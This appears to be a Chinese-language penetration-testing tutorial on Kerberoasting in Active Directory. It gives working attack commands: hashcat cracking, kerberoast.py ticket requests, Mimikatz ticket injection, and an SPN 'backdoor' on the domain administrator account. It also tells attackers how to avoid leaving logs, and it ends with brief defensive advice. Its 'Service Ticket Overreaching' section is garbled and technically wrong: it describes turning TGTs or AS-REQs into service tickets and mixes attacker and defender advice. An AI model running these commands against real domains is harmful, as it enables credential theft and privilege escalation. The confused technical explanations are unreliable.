


### 使用 Hashcat 工具

使用hashcat进行爆破哈希

```
┌──(root💀kali)-[/tmp]
└─# hashcat  -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```


## 服务票据重写和注入

服务票据重写（Service Ticket Overreaching）是一种利用 Kerberos 协议漏洞的攻击技术。它可以将一个普通的用户票据（TGT）转化成一个服务票据（TGS），并且该服务票据可以被用于访问活动目录中的服务或系统。这样，攻击者就可以使用该服务票据访问敏感资源，获取域管理员权限，或者进行其他恶意活动。

服务票据重写攻击可以分为以下几个步骤：

1. 获取普通的用户票据（TGT）：攻击者需要先获取一个普通用户的 TGT，以便使用其加密会话密钥来构造服务票据。
2. 构造服务票据（TGS）：攻击者需要使用 TGT 中的加密会话密钥来构造一个服务票据（TGS），并将其发送到目标系统中进行认证。
3. 认证服务票据（TGS）：目标系统会对收到的服务票据进行认证，如果票据有效，则会将服务的访问权限授予攻击者。

服务票据重写攻击可以绕过 Kerberos 协议中的安全机制，从而实现对敏感资源的访问。这种攻击技术比较难以检测，因此，防范服务票据重写攻击需要注意 Kerberos 协议的安全配置，并使用防火墙和 IDS 等安全措施对网络流量进行监控和过滤。

以下是使用 `kerberoast.py` 进行服务票据重写的步骤：

1. 获取攻击者权限：在目标系统中获取管理员权限或者 Domain Admin 权限，以便进行服务票据重写攻击。

2. 枚举 SPN：使用 Rubeus、GetUserSPNs 或 BloodHound 等工具，枚举活动目录中的 SPN，并保存到一个文件中。

3. 获取 TGS：使用 `kerberoast.py` 工具，从活动目录中获取指定 SPN 的可猎取账户的 Kerberos 预身份验证票据（AS-REQ），并将其转化为服务票据（TGS），从而绕过 Kerberos 认证。例如，可以使用以下命令获取 SPN 为 MSSQLSvc/sqlserver.sectest.com 的账户的服务票据：

   ```
   python kerberoast.py -spn MSSQLSvc/sqlserver.sectest.com
   ```

   执行该命令后，工具会自动从活动目录中获取可猎取账户的 AS-REQ，并将其转化为服务票据（TGS），输出到屏幕上或保存到文件中。例如，可以将服务票据保存到 tgs.txt 文件中：

   ```
   python kerberoast.py -spn MSSQLSvc/sqlserver.sectest.com > tgs.txt
   ```

4. 注入服务票据：使用 Mimikatz 或者其他工具，将服务票据注入到目标系统中。例如，可以使用以下命令使用 Mimikatz 将服务票据注入到当前进程中：

   ```
   mimikatz.exe "kerberos::ptt /ticket:tgs.txt"
   ```

   执行该命令后，服务票据会被注入到当前进程的票据缓存中，从而绕过 Kerberos 认证，获取系统或域管理员权限。

需要注意的是，服务票据重写攻击会在目标系统中生成 Kerberos TGS 票据，因此，攻击者应该尽可能地减少服务票据重写攻击的数量和频率，以避免在目标系统中留下可疑的日志和痕迹。同时，由于 Kerberos 哈希值可以在离线状态下进行暴力破解，因此，建议在生成 Kerberos TGS 票据时采用强密码，以提高破解难度，加强系统的安全性。同时，攻击者应该使用高强度的密码字典和破解工具，以提高破解哈希值的成功率。

## AES加密

> 在管理服务器上，转到**本地组策略编辑器**>**计算机配置**> **Windows 设置**>**安全设置**>**本地策略**>**安全选项**>**网络安全：配置 Kerberos 允许的加密类型**>**开启 RC4**。
>
> 在提升的命令提示符下运行`gpupdate /force`命令以确保更改已完成。

尽管双方都支持 AES 加密，但还是返回了使用 RC4（加密类型 `0x17/23`）加密的 TGS 票证。请注意，SOC 可能正在监视使用 RC4 加密的票证：


## Kerberoast后门

以管理员权限运行注册一个SPN服务

```
Set-DomainObject -Identity sectest.com\administrator -Set @{serviceprincipalname="a/b"}
Get-DomainUser -Identity sectest.com\administrator | Get-DomainSPNTicket
```


清除SPN：

```sql
Set-DomainObject -Identity sectest.com\administrator -clear serviceprincipalname
```


## Kerberoast 攻击的防范思路

1. 强制使用 AES256_HMAC 方式对 Kerberos票据进行加密
2. 增强密码策略：Kerberoast 攻击主要是基于暴力破解密码的，因此，增强密码策略可以有效降低攻击的成功率。建议采用长、复杂、随机的密码，并对密码进行定期更换和强制更新。
3. 禁用不必要的账户和服务：将不需要预身份验证的账户和服务禁用或限制，可以有效减少 Kerberoast 攻击的风险。这些账户和服务通常包括 IIS、Exchange、SQL Server、SharePoint 等。

**在进行日志审计时，可以重点关注ID为4769（请求Kerberos服务票据）的时间。如果有过多的 4769 日志，应进一步检查系统中是否存在恶意行为。**



